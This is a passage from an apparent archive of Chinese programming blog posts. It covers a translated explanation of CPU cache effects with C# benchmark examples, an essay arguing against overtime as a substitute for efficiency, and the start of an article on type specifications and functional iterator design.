3）**数据的分析结果**，要让人能看得懂，知道接下来要干什么，而不是为了数据而数据。

搞数据挖掘的人很多，但成功的案例却不多（相比起大量的尝试来说），就目前而言，**我似乎觉得目前的数据挖掘的技术是一种过渡技术，还在摸索阶段。另外，好些数据挖掘的团队搞得业务不业务，技术不技术的，为其中的技术人员感到惋惜**……

不好意思，我只给出了问题，没有建议，这也说明数据分析中有很多的机会……

最后，还要提的一个是“**数据中的个人隐私问题**”，这似乎就像那些有悖伦理的黑魔法一样，你要成功就得把自己变得黑暗。是的，**数据就像一个王座一样，像征着一种权力和征服，但登上去的路途一样令人胆颤**。

（全文完）

# 7个示例科普CPU CACHE

#####  [2013年07月30日 ](https://coolshell.cn/articles/10249.html) [Leo](https://coolshell.cn/articles/author/full_of_bull) 评论 [73 条评论](https://coolshell.cn/articles/10249.html#comments) 106,771 人阅读

**（感谢网友** [**@我的上铺叫路遥**](http://weibo.com/fullofbull) **翻译投稿）**

CPU cache一直是理解计算机体系架构的重要知识点，也是并发编程设计中的技术难点，而且相关参考资料如同过江之鲫，浩瀚繁星，阅之如临深渊，味同嚼蜡，三言两语难以入门。正好网上有人推荐了微软大牛Igor Ostrovsky一篇博文**《漫游处理器缓存效应》**，文章不仅仅用7个最简单的源码示例就将CPU cache的原理娓娓道来，还附加图表量化分析做数学上的佐证，个人感觉这种案例教学的切入方式绝对是俺的菜，故而忍不住贸然译之，以飨列位看官。

原文地址：[Gallery of Processor Cache Effects](http://igoro.com/archive/gallery-of-processor-cache-effects/)

大多数读者都知道cache是一种快速小型的内存，用以存储最近访问内存位置。这种描述合理而准确，但是更多地了解一些处理器缓存工作中的“烦人”细节对于理解程序运行性能有很大帮助。

在这篇博客中，我将运用代码示例来详解cache工作的方方面面，以及对现实世界中程序运行产生的影响。

下面的例子都是用C#写的，但语言的选择同程序运行状况以及得出的结论几乎没什么影响。

目录


[示例1：内存访问和运行](https://coolshell.cn/articles/10249.html#示例1：内存访问和运行)[示例2：缓存行的影响](https://coolshell.cn/articles/10249.html#示例2：缓存行的影响)[示例3：L1和L2缓存大小](https://coolshell.cn/articles/10249.html#示例3：L1和L2缓存大小)[示例4：指令级别并发](https://coolshell.cn/articles/10249.html#示例4：指令级别并发)[示例5：缓存关联性](https://coolshell.cn/articles/10249.html#示例5：缓存关联性)[示例6：缓存行的伪共享(false-sharing)](https://coolshell.cn/articles/10249.html#示例6：缓存行的伪共享false-sharing)[示例7：硬件复杂性](https://coolshell.cn/articles/10249.html#示例7：硬件复杂性)[关于第7个例子的一个回帖](https://coolshell.cn/articles/10249.html#关于第7个例子的一个回帖)[P.S.个人感悟——局部性原理和流水线并发](https://coolshell.cn/articles/10249.html#PS个人感悟——局部性原理和流水线并发)[参考资料](https://coolshell.cn/articles/10249.html#参考资料)

#### 示例1：内存访问和运行

你认为相较于循环1，循环2会运行多快？

```
int[] arr = new int[64 * 1024 * 1024];

// Loop 1
for (int i = 0; i < arr.Length; i++) arr[i] *= 3;

// Loop 2
for (int i = 0; i < arr.Length; i += 16) arr[i] *= 3;
```


第一个循环将数组的每个值乘3，第二个循环将每16个值乘3，第二个循环只做了第一个约6%的工作，但在现代机器上，两者几乎运行相同时间：在我机器上分别是80毫秒和78毫秒。

两个循环花费相同时间的原因跟内存有关。**循环执行时间长短由数组的内存访问次数决定的，而非整型数的乘法运算次数。**经过下面对第二个示例的解释，你会发现硬件对这两个循环的主存访问次数是相同的。

#### 示例2：缓存行的影响

让我们进一步探索这个例子。我们将尝试不同的循环步长，而不仅仅是1和16。

```
for (int i = 0; i < arr.Length; i += K) arr[i] *= 3;
```

下图为该循环在不同步长(K)下的运行时间：


注意当步长在1到16范围内，循环运行时间几乎不变。但从16开始，每次步长加倍，运行时间减半。

背后的原因是今天的CPU不再是按字节访问内存，而是以64字节为单位的块(chunk)拿取，称为一个缓存行(cache line)。当你读一个特定的内存地址，整个缓存行将从主存换入缓存，并且访问同一个缓存行内的其它值的开销是很小的。

由于16个整型数占用64字节（一个缓存行），for循环步长在1到16之间必定接触到相同数目的缓存行：即数组中所有的缓存行。当步长为32，我们只有大约每两个缓存行接触一次，当步长为64，只有每四个接触一次。

理解缓存行对某些类型的程序优化而言可能很重要。比如，数据字节对齐可能决定一次操作接触1个还是2个缓存行。那上面的例子来说，很显然操作不对齐的数据将损失一半性能。

#### 示例3：L1和L2缓存大小

今天的计算机具有两级或三级缓存，通常叫做L1、L2以及可能的L3（译者注：如果你不明白什么叫二级缓存，可以参考[这篇精悍的博文](https://coolshell.cn/articles/3236.html)lol）。如果你想知道不同缓存的大小，你可以使用系统内部工具[CoreInfo](http://technet.microsoft.com/en-us/sysinternals/cc835722.aspx)，或者Windows API调用[GetLogicalProcessorInfo](http://msdn.microsoft.com/en-us/library/ms683194(VS.85).aspx)。两者都将告诉你缓存行以及缓存本身的大小。

在我的机器上，CoreInfo现实我有一个32KB的L1数据缓存，一个32KB的L1指令缓存，还有一个4MB大小L2数据缓存。L1缓存是处理器独享的，L2缓存是成对处理器共享的。

Logical Processor to Cache Map:
*— Data Cache 0, Level 1, 32 KB, Assoc 8, LineSize 64
*— Instruction Cache 0, Level 1, 32 KB, Assoc 8, LineSize 64
-*– Data Cache 1, Level 1, 32 KB, Assoc 8, LineSize 64
-*– Instruction Cache 1, Level 1, 32 KB, Assoc 8, LineSize 64
**– Unified Cache 0, Level 2, 4 MB, Assoc 16, LineSize 64
–*- Data Cache 2, Level 1, 32 KB, Assoc 8, LineSize 64
–*- Instruction Cache 2, Level 1, 32 KB, Assoc 8, LineSize 64
—* Data Cache 3, Level 1, 32 KB, Assoc 8, LineSize 64
—* Instruction Cache 3, Level 1, 32 KB, Assoc 8, LineSize 64
–** Unified Cache 1, Level 2, 4 MB, Assoc 16, LineSize 64

（译者注：作者平台是四核机，所以L1编号为0~3，数据/指令各一个，L2只有数据缓存，两个处理器共享一个，编号0~1。关联性字段在后面例子说明。）

让我们通过一个实验来验证这些数字。遍历一个整型数组，每16个值自增1——一种节约地方式改变每个缓存行。当遍历到最后一个值，就重头开始。我们将使用不同的数组大小，可以看到当数组溢出一级缓存大小，程序运行的性能将急剧滑落。

```
int steps = 64 * 1024 * 1024;
// Arbitrary number of steps
int lengthMod = arr.Length - 1;
for (int i = 0; i < steps; i++)
{
    arr[(i * 16) & lengthMod]++; // (x & lengthMod) is equal to (x % arr.Length)
}
```

下图是运行时间图表：


你可以看到在32KB和4MB之后性能明显滑落——正好是我机器上L1和L2缓存大小。

#### 示例4：指令级别并发

现在让我们看一看不同的东西。下面两个循环中你以为哪个较快？

```
int steps = 256 * 1024 * 1024;
int[] a = new int[2];

// Loop 1
for (int i=0; i<steps; i++) { a[0]++; a[0]++; }

// Loop 2
for (int i=0; i<steps; i++) { a[0]++; a[1]++; }
```

结果是第二个循环约比第一个快一倍，至少在我测试的机器上。为什么呢？这跟两个循环体内的操作指令依赖性有关。

第一个循环体内，操作做是相互依赖的（译者注：下一次依赖于前一次）：

但第二个例子中，依赖性就不同了：


现代处理器中对不同部分指令拥有一点并发性（译者注：跟流水线有关，比如Pentium处理器就有U/V两条流水线，后面说明）。这使得CPU在同一时刻访问L1两处内存位置，或者执行两次简单算术操作。在第一个循环中，处理器无法发掘这种指令级别的并发性，但第二个循环中就可以。

[原文更新]：许多人在reddit上询问有关编译器优化的问题，像{ a[0]++; a[0]++; }能否优化为{ a[0]+=2; }。实际上，C#编译器和CLR JIT没有做优化——在数组访问方面。我用release模式编译了所有测试（使用优化选项），但我查询了JIT汇编语言证实优化并未影响结果。

#### 示例5：缓存关联性

缓存设计的一个关键决定是确保每个主存块(chunk)能够存储在任何一个缓存槽里，或者只是其中一些（译者注：此处一个槽位就是一个缓存行）。

有三种方式将缓存槽映射到主存块中：

1. **直接映射(Direct mapped cache)**
   每个内存块只能映射到一个特定的缓存槽。一个简单的方案是通过块索引chunk_index映射到对应的槽位(chunk_index % cache_slots)。被映射到同一内存槽上的两个内存块是不能同时换入缓存的。（译者注：chunk_index可以通过物理地址/缓存行字节计算得到）
2. **N路组关联(N-way set associative cache)**
   每个内存块能够被映射到N路特定缓存槽中的任意一路。比如一个16路缓存，每个内存块能够被映射到16路不同的缓存槽。一般地，具有一定相同低bit位地址的内存块将共享16路缓存槽。（译者注：相同低位地址表明相距一定单元大小的连续内存）
3. **完全关联(Fully associative cache)**
   每个内存块能够被映射到任意一个缓存槽。操作效果上相当于一个散列表。

直接映射缓存会引发冲突——当多个值竞争同一个缓存槽，它们将相互驱逐对方，导致命中率暴跌。另一方面，完全关联缓存过于复杂，并且硬件实现上昂贵。N路组关联是处理器缓存的典型方案，它在电路实现简化和高命中率之间取得了良好的折中。


（此图由译者给出，直接映射和完全关联可以看做N路组关联的两个极端，从图中可知当N=1时，即直接映射；当N取最大值时，即完全关联。读者可以自行想象直接映射图例，具体表述见参考资料。）

举个例子，4MB大小的L2缓存在我机器上是16路关联。所有64字节内存块将分割为不同组，映射到同一组的内存块将竞争L2缓存里的16路槽位。

L2缓存有65,536个缓存行（译者注：4MB/64），每个组需要16路缓存行，我们将获得4096个集。这样一来，块属于哪个组取决于块索引的低12位bit(2^12=4096)。**因此缓存行对应的物理地址凡是以262,144字节(4096\*64)的倍数区分的，将竞争同一个缓存槽。我机器上最多维持16个这样的缓存槽。**（译者注：请结合上图中的2路关联延伸理解，一个块索引对应64字节，chunk0对应组0中的任意一路槽位，chunk1对应组1中的任意一路槽位，以此类推chunk4095对应组4095中的任意一路槽位，chunk0和chunk4096地址的低12bit是相同的，所以chunk4096、chunk8192将同chunk0竞争组0中的槽位，它们之间的地址相差262,144字节的倍数，而最多可以进行16次竞争，否则就要驱逐一个chunk）。

为了使得缓存关联效果更加明了，我需要重复地访问同一组中的16个以上的元素，通过如下方法证明：

```
public static long UpdateEveryKthByte(byte[] arr, int K)
{
    Stopwatch sw = Stopwatch.StartNew();
    const int rep = 1024*1024; // Number of iterations – arbitrary
    int p = 0;
    for (int i = 0; i < rep; i++)
    {
        arr[p]++;
        p += K;
        if (p >= arr.Length) p = 0;
    }
    sw.Stop();
    return sw.ElapsedMilliseconds;
}
```

该方法每次在数组中迭代K个值，当到达末尾时从头开始。循环在运行足够长（2^20次）之后停止。

我使用不同的数组大小（每次增加1MB）和不同的步长传入UpdateEveryKthByte()。以下是绘制的图表，蓝色代表运行较长时间，白色代表较短时间：

蓝色区域（较长时间）表明当我们重复数组迭代时，更新的值无法同时放在缓存中。浅蓝色区域对应80毫秒，白色区域对应10毫秒。

让我们来解释一下图表中蓝色部分：

**1.为何有垂直线？**垂直线表明步长值过多接触到同一组中内存位置（大于16次）。在这些次数里，我的机器无法同时将接触过的值放到16路关联缓存中。

一些糟糕的步长值为2的幂：256和512。举个例子，考虑512步长遍历8MB数组，存在32个元素以相距262,144字节空间分布，所有32个元素都会在循环遍历中更新到，因为512能够整除262,144（译者注：此处一个步长代表一个字节）。

由于32大于16，这32个元素将一直竞争缓存里的16路槽位。

（译者注：为何512步长的垂直线比256步长颜色更深？在同样足够多的步数下，512比256访问到存在竞争的块索引次数多一倍。比如跨越262,144字节边界512需要512步，而256需要1024步。那么当步数为2^20时，512访问了2048次存在竞争的块而256只有1024次。最差情况下步长为262,144的倍数，因为每次循环都会引发一个缓存行驱逐。）

有些不是2的幂的步长运行时间长仅仅是运气不好，最终访问到的是同一组中不成比例的许多元素，这些步长值同样显示为蓝线。

**2.为何垂直线在4MB数组长度的地方停止？**因为对于小于等于4MB的数组，16路关联缓存相当于完全关联缓存。

一个16路关联缓存最多能够维护16个以262,144字节分隔的缓存行，4MB内组17或更多的缓存行都没有对齐在262,144字节边界上，因为16*262,144=4,194,304。

**3.为何左上角出现蓝色三角？**在三角区域内，我们无法在缓存中同时存放所有必要的数据，不是出于关联性，而仅仅是因为L2缓存大小所限。

举个例子，考虑步长128遍历16MB数组，数组中每128字节更新一次，这意味着我们一次接触两个64字节内存块。为了存储16MB数组中每两个缓存行，我们需要8MB大小缓存。但我的机器中只有4MB缓存（译者注：这意味着必然存在冲突从而延时）。

即使我机器中4MB缓存是全关联，仍无法同时存放8MB数据。

**4.为何三角最左边部分是褪色的？**注意左边0~64字节部分——正好一个缓存行！就像上面示例1和2所说，额外访问相同缓存行的数据几乎没有开销。比如说，步长为16字节，它需要4步到达下一个缓存行，也就是说4次内存访问只有1次开销。

在相同循环次数下的所有测试用例中，采取省力步长的运行时间来得短。

将图表延伸后的模型：


缓存关联性理解起来有趣而且确能被证实，但对于本文探讨的其它问题比起来，它肯定不会是你编程时所首先需要考虑的问题。

#### 示例6：缓存行的伪共享(false-sharing)

在多核机器上，缓存遇到了另一个问题——一致性。不同的处理器拥有完全或部分分离的缓存。在我的机器上，L1缓存是分离的（这很普遍），而我有两对处理器，每一对共享一个L2缓存。这随着具体情况而不同，如果一个现代多核机器上拥有多级缓存，那么快速小型的缓存将被处理器独占。

**当一个处理器改变了属于它自己缓存中的一个值，其它处理器就再也无法使用它自己原来的值，因为其对应的内存位置将被刷新(invalidate)到所有缓存。而且由于缓存操作是以缓存行而不是字节为粒度，所有缓存中整个缓存行将被刷新！**

为证明这个问题，考虑如下例子：

```
private static int[] s_counter = new int[1024];
private void UpdateCounter(int position)
{
    for (int j = 0; j < 100000000; j++)
    {
        s_counter[position] = s_counter[position] + 3;
    }
}
```

在我的四核机上，如果我通过四个线程传入参数0,1,2,3并调用UpdateCounter，所有线程将花费4.3秒。

另一方面，如果我传入16,32,48,64，整个操作进花费0.28秒！

为何会这样？第一个例子中的四个值很可能在同一个缓存行里，每次一个处理器增加计数，这四个计数所在的缓存行将被刷新，而其它处理器在下一次访问它们各自的计数（译者注：注意数组是private属性，每个线程独占）将失去命中(miss)一个缓存。这种多线程行为有效地禁止了缓存功能，削弱了程序性能。

#### 示例7：硬件复杂性

即使你懂得了缓存的工作基础，有时候硬件行为仍会使你惊讶。不用处理器在工作时有不同的优化、探试和微妙的细节。

有些处理器上，L1缓存能够并发处理两路访问，如果访问是来自不同的存储体，而对同一存储体的访问只能串行处理。而且处理器聪明的优化策略也会使你感到惊讶，比如在伪共享的例子中，以前在一些没有微调的机器上运行表现并不良好，但我家里的机器能够对最简单的例子进行优化来减少缓存刷新。

下面是一个“硬件怪事”的奇怪例子：

```
private static int A, B, C, D, E, F, G;
private static void Weirdness()
{
    for (int i = 0; i < 200000000; i++)
    {
        // do something...
    }
}
```

当我在循环体内进行三种不同操作，我得到如下运行时间：

​      **操作**          **时间**
A++; B++; C++; D++;   719 ms
A++; C++; E++; G++;   448 ms
A++; C++;            518 ms

增加A,B,C,D字段比增加A,C,E,G字段花费更长时间，更奇怪的是，增加A,C两个字段比增加A,C,E,G执行更久！

我无法肯定这些数字背后的原因，但我怀疑这跟存储体有关，如果有人能够解释这些数字，我将洗耳恭听。

这个例子的教训是，你很难完全预测硬件的行为。你可以预测很多事情，但最终，衡量及验证你的假设非常重要。

#### 关于第7个例子的一个回帖

Goz：我询问Intel的工程师最后的例子，得到以下答复：

“很显然这涉及到执行单元里指令是怎样终止的，机器处理存储-命中-加载的速度，以及如何快速且优雅地处理试探性执行的循环展开（比如是否由于内部冲突而多次循环）。但这意味着你需要非常细致的流水线跟踪器和模拟器才能弄明白。在纸上预测流水线里的乱序指令是无比困难的工作，就算是设计芯片的人也一样。对于门外汉来说，没门，抱歉！”

#### P.S.个人感悟——局部性原理和流水线并发

程序的运行存在**时间和空间上的局部性**，前者是指只要内存中的值被换入缓存，今后一段时间内会被多次引用，后者是指该内存附近的值也被换入缓存。如果在编程中特别注意运用局部性原理，就会获得性能上的回报。

比如**C语言中应该尽量减少静态变量的引用，**这是因为静态变量存储在全局数据段，在一个被反复调用的函数体内，引用该变量需要对缓存多次换入换出，而如果是分配在堆栈上的局部变量，函数每次调用CPU只要从缓存中就能找到它了，因为堆栈的重复利用率高。

再比如**循环体内的代码要尽量精简，**因为代码是放在指令缓存里的，而指令缓存都是一级缓存，只有几K字节大小，如果对某段代码需要多次读取，而这段代码又跨越一个L1缓存大小，那么缓存优势将荡然无存。

关于**CPU的流水线(pipeline)并发性**简单说说，Intel Pentium处理器有两条流水线U和V，每条流水线可各自独立地读写缓存，所以可以在一个时钟周期内同时执行两条指令。但这两条流水线不是对等的，U流水线可以处理所有指令集，V流水线只能处理简单指令。

CPU指令通常被分为四类，第一类是常用的简单指令，像mov, nop, push, pop, add, sub, and, or, xor, inc, dec, cmp, lea，可以在任意一条流水线执行，只要相互之间不存在依赖性，完全可以做到指令并发。

第二类指令需要同别的流水线配合，像一些进位和移位操作，这类指令如果在U流水线中，那么别的指令可以在V流水线并发运行，如果在V流水线中，那么U流水线是暂停的。

第三类指令是一些跳转指令，如cmp,call以及条件分支，它们同第二类相反，当工作在V流水线时才能通U流水线协作，否则只能独占CPU。

第四类指令是其它复杂的指令，一般不常用，因为它们都只能独占CPU。

如果是汇编级别编程，**要达到指令级别并发，必须要注重指令之间的配对。**尽量使用第一类指令，避免第四类，还要在顺序上减少上下文依赖。

#### 参考资料

wiki上的CPU cache解析（[中文版](https://zh.wikipedia.org/zh-cn/CPU缓存)）（[英文版](https://en.wikipedia.org/wiki/CPU_cache)）。

上海交通大学师生制作的一个关于[cache映射功能、命中率计算](http://yoursunny.com/study/EI209/?topic=cache)的教学演示程序，模拟了不同关联模式下cache的映射和命中几率，形象直观。

网易数据库大牛[@何_登成](http://weibo.com/u/2216172320)自制PPT[《CPU Cache and Memory Ordering》](http://vdisk.weibo.com/s/dBzv2sibdUB8)，信息量超大！

南京大学计算机教学[公开PPT](http://cs.nju.edu.cn/swang/CompArchOrg_12F/slides/lecture09.pdf)，温馨提示，地址域名里面改变字段”lecture”后面的数字编号可切换课程;-)

（全文完）

# 加班与效率

#####  [2013年07月24日 ](https://coolshell.cn/articles/10217.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [194 条评论](https://coolshell.cn/articles/10217.html#comments) 211,665 人阅读

微博上看到了[这么一个贴子](http://weibo.com/1401880315/A0LFVkB3L)，就像以前在《[腾讯，竞争力 和 用户体验](https://coolshell.cn/articles/5901.html)》中批评过腾讯说自己的核心竞争力是员工加班一样，我顺着Winter的回复也批评了一下这个微博——

“靠加班超越对手？！劳动密集型么？我要是对手的话，我就来趁机挖人了，直接摁死你……//[@寒冬winter](http://weibo.com/n/寒冬winter): 当一个管理者的智慧无法衡量一支团队的产出的时候，他就会把“工时”当做最后的救命稻草，死死抱住——这是他唯一听得懂的东西了。”


然后，[@玄了个澄的](http://weibo.com/jiach)在微博里at我说，他在微信里看了[@Fenng](http://weibo.com/n/Fenng) 关于加班的言论，希望我评论一下。我看了一下大辉的文章，虽然写得有点散乱，但是我和他的一些观点还是很类似的，我主要在这里加强一下我的看法。

#### 关于加班

**认为加班是公司的核心竞争力，或是超越对手的手段，是一种相当 Ridiculous 的想法。这说明管理者们已经想不到自己公司的核心价值了**。


是的，这些靠堆功能没有灵魂的产品的价值就只剩下比谁跑得快了。他们愚蠢和思维有限的大脑里已经区分不出来，“跑得快”和“跑得好”的差别了。产品的发展不是短跑，而是长跑，甚至更像是登山，登山比的不是快，而比的是策略，比的是意志，目的是登顶。并不是谁一开始爬得快谁就能最先登顶的，你往往被超越的时候都在后半程。对于一些危险的雪山来说，登顶的人通常都是要做好非常很充分的准备，并且在登山的过程中学会如何保留体力，学会如何步步为营的，从来不强行登顶。

在[《Rework》摘录及感想](https://coolshell.cn/articles/9156.html) 中提到过两点

- **条件受限是好事，因为条件受限可以让你小材大用，让你没有办法再用蛮力来完成工作，让你必需去思考使用知识密集型的解决方案来更聪明的解决问题**。

- **工作狂往往不得要领。他们花大把大把的时间去解决问题，他们以为能靠蛮力来弥补思维上的惰性，其结果就是折腾出一堆粗糙无用的解决方案**。

就像人肉手动的织布机一样，当面对大量订单的时候，一个简单粗暴的方法就是拼命地加人和拼命地工作来换取更大的生产力。只有你在人手不够或是人力成本太高的情况下，你才会去想是不是可以优化一下工具，制造一个更有效率更有生产力的工具。

**在中国，劳动力的成本不高，而管理者们的智力和能力有限，所以，在这个环境下，尤其在KPI和数字的重压下，管理者们是非常非常容易想到需要靠加人或是加班来提高产能的**。所以，他们放弃了知识密集型的创新，而采用了劳动密集型的简单粗暴的方式，长期下来，导致了自己再也不会思考，导致了只会使用人肉解决问题。

于是，当全自动化的织布机出现的时候，这种劳动密集型的公司分分钟就成为了历史。这样的例子太多太多了，看看历史就知道了。

当然，有时候，我们需要冲刺还是要适当偶尔加班的，但这绝对不应该是常态和长期的，不然，这必然是一种饮鸩止渴的行为。

另外，我还要多说几种情况：

1）如果你的员工就像在《[软件公司的两种管理](https://coolshell.cn/articles/4951.html)》中所说的，像Widget Factories那样，净是些X型的人的话，那么，你也只有使用加班和加人这种方式，就像长城和金字塔的建设过程一样，就像富士康一样，你的团队本质是不会思考只能用鞭子去抽他们的方式去管理。于是，你也只能用“狼性”来呼唤你的员工像那些低智商的野兽一样的行事。

2）有时候，我们需要去“卡位”，需要很快地去实现一个东西占领市场，这需要加班。就像Win95和Intel的奔腾芯片的浮点数问题一样。但是千万不要忘了，你在卡完位后，得马上把你产品的质量搞上去，不然，你一样会死得很难看。（Windows是有两个团队的，一个团队是用来占领市场的，另一个团队是安心搞发展的）注意：“卡位”从某种程度上来说应该是一种有价值的事，但我们依然要思考是否在用蛮力行事。

3）另外，有的人工作就是生活，生活就是工作，所以，对他来说，这不是一种工作，而是一种事业。我认可这样的精神和热情，但是，我还是想让这样的人反思一下自己，有没有用一种更为聪明的方式来从事自己的事业？而不是用蛮力。

无论上述的哪种情况，我们都可以看到，只要你进入了劳动密集型，靠人和靠加班来解决问题，并沉迷并深 陷其中不能自拔，那们，你终有一天会玩到尽头的。

#### 关于效率

**很多人不知道什么叫效率，他们以为效率就是：单位时间单位人数下干更多的活。这是错的！效率不是比谁干的活多，而是比谁干得活有更大的价值**。效率的物理公式是：**有用功/总功**。换句话说，效率就是：单位时间和人数产生的价值。所以，提高效率，并不是加人，也不是干更多的活，而是，你这么多人干出来了多少有价值的东西。

有了公式，我们也就知道怎么来提高效率了。

**1）增加有用功**

- 你得多问问你的需求方，为什么要加这个需求？干这个事到底有多大的价值？能让多少人受益？
- 你得多问问你的需求方，能不能稍微简化一下需求，这样可以让我付出的努力更少一些？
- 你得要多去思考一下，你是在干一个建筑队的活呢？还是在干一个装修队的活？
- 你得要多去思考一下，业务上和用户的最大的痛点是什么？

关于增加有用功，再说两点：

- 像乔布斯那样，告诉你的产品经理或是业务方，你现在提的10需求，我只能做3个，会是哪3个？为什么是这3个？**有用功的来源不是拼命做需求，而是砍需求。**

- **关于创造价值，我们要干的不是像百度的“竞价排名”那样，把钱从别人口袋里搬运到自己的口袋里，而是要像“英国工业革命”或是“硅谷”那样，把价值真正的创造出来**。

**2）降低总功**

- 你得多问问自己，你有多少时间是在干一些支持性而不是产出性的工作？
- 你得多问问自己，有没有残酷无情地减少重复劳动的劳动密集型的工作？
- 你得多问问自己，自己的管理者和员工的能力和素质有没有在降低你的团队执行的成本？

**3）形成合力**

有一个很不错的产品经理对我说，他看了南京那两个小女孩被饿死的消息，感到很震惊。与之有关联的每一方都说自己尽力，但是最终结果人还是饿死了，你几乎不敢相信这是真的。

但是，类比一下我们的项目，这种事似乎又发生在我们的公司当中，尤其是大公司中。每一个团队都说自己尽力了，结果项目就是没做好，底层团队说自己只干底层，已经尽力了，前端说自己只负责前端，也尽力了，后端说自己只管后端，不管前端和底层，运维说对于这样的设计和部署自己也尽力了，产品经理，运营都这样说，自己尽力了。你会发现，你几乎很难批评他们，因为他们的确如他们所说的那样，把他们自己的那块都做得很好了，而且的确做得很好了。但是，最终的结果却是：整个产品问题很多。

**所以说，效率不是每个团队各自的效率，而是整个团队对整个产品负责的共同使命，这样才会现整体的效率。没有整体的效率，只有个体的效率，最终也等于没有效率**。

#### T-Shirt Size Estimation

Amazon用一种T-Shirt Size 估计的方式来做项目。

- 产品经理会对每一条需求评估上业务影响力的尺寸，如：XXXL 影响一千万人以上或是可以占到上亿美金的市场，XXL，影响百万用户或是占了千万金级别以上的市场，后面还有XL，L，M，S，这样下来。

- 开发团队也一样，要评估投入的人员时间成本，XXXL表示要干1年，XXL干半年，XL干3个月，L干两个月，M干一个月，S干两周以下。等等。

于是，

- 当业务影响力是XL，时间人员成本是S，这是最高优先级。
- 当业务影响力是M，时间人员成本是M，这是低优先级。
- 当业务影响力是S，时间人员成本是XL，直接砍掉这个需求。因为是亏的。
- 当业务影响力是XXL，时间人员成本是XXL，需要简化需求，把需求简化成XL，时间人员成本变成M以下。

大家感受一下吧。

好了，我就说这么多，欢迎大家讨论。

（全文完）

# 类型的本质和函数式实现

#####  [2013年07月22日 ](https://coolshell.cn/articles/10169.html) [Todd](https://coolshell.cn/articles/author/todd) 评论 [32 条评论](https://coolshell.cn/articles/10169.html#comments) 29,276 人阅读

**（感谢** [@文艺复兴记](http://weibo.com/weidagang)**（todd） 投递此文）**

在上一篇文章[《二叉树迭代器算法》](https://coolshell.cn/articles/9886.html)中，我介绍了一种基于栈的二叉树迭代器实现。程序设计语言和Haskell大牛[@九瓜](http://weibo.com/u/1684815495) 在看过之后评论到：

> 这里用了 stack 来做，有点偷懒，所以错失了一个抽象思考机会。如果我们能够理解二叉树到线性表的转换过程，完全可以把 Iterator 当作抽象的线性表来看，只要定义了关于 Iterator 的 empty, singleton, 还有 append 操作，实现二叉树的 Iterator 就变得非常直观。

“错失了一个抽象思考机会”是什么意思呢？我理解九瓜的意思是基于栈的实现虽然是正确的，但它缺乏对于迭代器类型本质的理解，不具有通用性。如果能对迭代器进行合适地抽象就可以像二叉树递归遍历一样自然地得出二叉树迭代器，甚至其他更复杂的数据结构，只要我们能写出它的遍历算法，迭代器算法都可以自然推出。

目录


[类型的本质](https://coolshell.cn/articles/10169.html#类型的本质)[类型的函数式实现](https://coolshell.cn/articles/10169.html#类型的函数式实现)[函数式二叉树迭代器](https://coolshell.cn/articles/10169.html#函数式二叉树迭代器)[总结](https://coolshell.cn/articles/10169.html#总结)

#### 类型的本质

九瓜提到了通过empty, singleton和append操作对Iterator进行抽象，我本来打算直接根据这个思路介绍函数式的二叉树迭代器实现，但是考虑到其实首要的问题在于理解类型的本质，而并不是所有人都具备这个基础，不如先普及一下类型基础再进入具体实现。那么下面我们就先来认识一下类型到底是什么？我们先以来看看表示元素对的Pair类型，可能有人一提到Pair类型马上就会在脑海中浮现出下面的结构：


```
struct Pair {
    int left;
    int right;
}
```

其实，这种理解是非本质的，Pair完全可以用2个元素的数组来表示，第一个元素表示left，第二个元素表示right：

```
struct Pair {
    int elements[2];
}
```

上面的两种不同表示是类型的不同实现，而**类型的本质是由操作(Operation)和操作间的关系或不变式(Invariant)所定义的**，我们称之为类型规范(Type Specification)。比如，Pair类型是这样定义的：

```
Type Pair:
    Operations:
        Pair make_pair(int x, int y)
        int get_left(Pair pair)
        int get_right(Pair pair)
    Invariants:
        get_left(make_pair(x, y)) == x  //对x, y构造的Pair取左元素等于x
        get_right(make_pair(x, y)) == y  //对x, y构造的Pair取右元素等于y
```

也就是说只要是满足Pair类型规范，即定义了make_pair，get_left, get_right这3种操作，并且这些操作满足上面两个不变式，那么它这就是Pair类型。我们再来看看稍微复杂一点的Stack类型：

```
Type Stack:
    Operations:
        Stack make_stack()  //构造空栈
        Stack push(Stack stack, int x)  //将元素x压栈，返回新栈
        int top(stack)  //获取栈顶元素
        Stack pop(Stack stack)  //将栈顶元素弹栈，返回新栈
    Invariants:
        top(push(stack, x)) == x  //栈顶元素为最后一次压栈值
        pop(push(stack, x)) == stack  //对stack压栈后再弹栈等于原来的stack
```

Stack类型规范简言之就是FILO（先入后出），如果要形式化就是上面的不变式。为了加深理解，我们现在切换到测试视角来看一看，如果请你来编写一个Stack类的单元测试用例，你应该怎么写呢？许多朋友都不清楚单元测试到底测什么？怎么测？我见过不少人用一个测试用例单独对push做测试，用另一个测试用例对pop单独做测试，其主要原因就在于缺乏对类型本质的理解。其实，只要理解了类型的本质我们就知道孤立地看push或pop是没有任何意义的，它们的意义是在FILO关系下相互解释的，所以测试当然是基于类型规范来测试FILO不变式！这种基于类型规范的测试是一种黑盒测试，与类型的内部实现细节无关，只要单元测试覆盖了类型所定义的所有操作和不变式，那么不管内部怎么实现或优化，测试用例都不需要调整。反之，如果深入到了类型的内部实现做白盒测试，那这样的测试用例实际上就不再是反映其类型规范了，它会随着实现细节的调整而失效。

更深一层来看，不仅是在Pair，Stack这样的微观层面，在一个系统的宏观层面同样可以采用类型视角，即考察系统定义了哪些操作？这些操作之间有什么样的关系或不变式？比如，你如何从类型的角度来看待MySQL这样一套数据库系统？MySQL系统定义了哪些操作？这些操作之间必须满足怎样的关系和不变式？不仅如此，类型视角除了可以应用于计算机系统，甚至还可以应用于生活中的事物，比如，你到超市购物可以寄存自己的包，在寄包的时候会获得一张密码条，取包时可以通过密码条打开箱子。你能从超市寄包这个例子中看出类型来吗？如果你看出来了，说明你对类型的理解真正融会贯通了！

#### 类型的函数式实现

上面我们介绍了类型的本质在于操作和操作间的关系，下面我们要关注的是类型的实现。在上面的例子中，Pair的内部结构到底是什么，是一个left和一个right成员？还是一个两元素的数组？没有讲，也没关系，就好像Windows的Handle和Linux的FileDescriptor一样，它们都是一个标识，你并不需要关心它的值本身，你只需要用几个相关的函数创建和操作它就行了（上面超市寄包例子中的密码条和Windows中的Handle是什么关系，你看出来了吗？你需要理解密码条的内容吗？）。换句话说，只要满足类型规范，具体实现是可变的，使用者**只依赖于类型规范而不依赖于其具体实现**。这在面向对象语言中意味着接口保持不变而具体实现可以变化（这里把public方法视为一种广义的接口）。

